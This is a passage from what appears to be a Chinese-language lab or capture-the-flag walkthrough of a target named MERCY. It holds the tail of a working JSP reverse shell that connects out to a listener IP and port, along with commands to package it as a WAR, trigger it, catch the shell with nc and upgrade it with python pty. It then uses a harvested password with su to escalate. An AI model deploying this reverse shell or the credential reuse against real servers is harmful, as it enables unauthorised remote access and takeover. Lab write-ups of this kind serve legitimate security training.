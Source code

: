 ```jsp
                    w.write( buffer, 0, length );
                    w.flush();
                }
            } catch( Exception e ){}
            try
            {
                if( r != null )
                    r.close();
                if( w != null )
                    w.close();
            } catch( Exception e ){}
        }
    }
 
    try {
        Socket socket = new Socket( "192.168.2.7", 1234 ); // Replace with wanted ip and port
        Process process = Runtime.getRuntime().exec( shellPath );
        new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();
        new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();
        out.println("port opened on " + socket);
     } catch( Exception e ) {}
%>
</pre>
</body>
</html>
```

打包命令为：

```bash
jar -cf shell.war shell.jsp
```

触发路径为

```http
http://192.168.2.6:8080/shell/shell.jsp
```

监听拿到shell

```
└─# nc -lvvp 1234
python -c 'import pty; pty.spawn("/bin/bash")'
```

# 提权

**1、之前还收集到了一个账号密码，试试 su**

```
fluffy:freakishfluffybunny
```

```bash
tomcat7@MERCY:/var/lib/tomcat7$ su fluffy
su fluffy
Password: freakishfluffybunny

Added user fluffy.

$ whoami
whoami
fluffy

```
